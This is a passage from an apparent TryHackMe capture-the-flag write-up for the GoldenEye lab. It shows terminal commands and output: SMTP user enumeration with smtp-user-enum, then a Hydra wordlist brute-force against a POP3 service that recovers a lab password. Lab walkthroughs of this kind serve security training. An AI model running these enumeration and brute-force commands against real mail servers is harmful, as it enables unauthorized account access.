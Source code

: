 ```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ cat users.txt
boris
natalya

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ smtp-user-enum -U users.txt -t GoldenEye.thm
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

---

| Scan Information |

---

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... users.txt
Target count ............. 1
Username count ........... 2
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............

######## Scan started at Sat Sep 2 10:21:06 2023 #########
GoldenEye.thm: natalya exists
GoldenEye.thm: boris exists
######## Scan completed at Sat Sep 2 10:21:07 2023 #########
2 results.

2 queries in 1 seconds (2.0 queries / sec)

```

`boris` and `natalya` both exist! Now it’s time to use `hydra` to crack their password:

```

┌──(kali㉿kali)-[~/TryHackMe/GoldenEye]
└─$ hydra -L users.txt -P ~/Wordlists/fasttrack.txt pop3://GoldenEye.thm:55007
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 11:18:30
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 444 login tries (l:2/p:222), ~28 tries per task
[DATA] attacking pop3://GoldenEye.thm:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 364 to do in 00:05h, 16 active
[55007][pop3] host: GoldenEye.thm login: boris password: secret1!
[STATUS] 85.00 tries/min, 255 tries in 00:03h, 189 to do in 00:03h, 16 active
[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity.

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity.

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity.

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity.

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.

[ERROR] POP3 PLAIN AUTH : -ERR Disconnected for inactivity during authentication.
```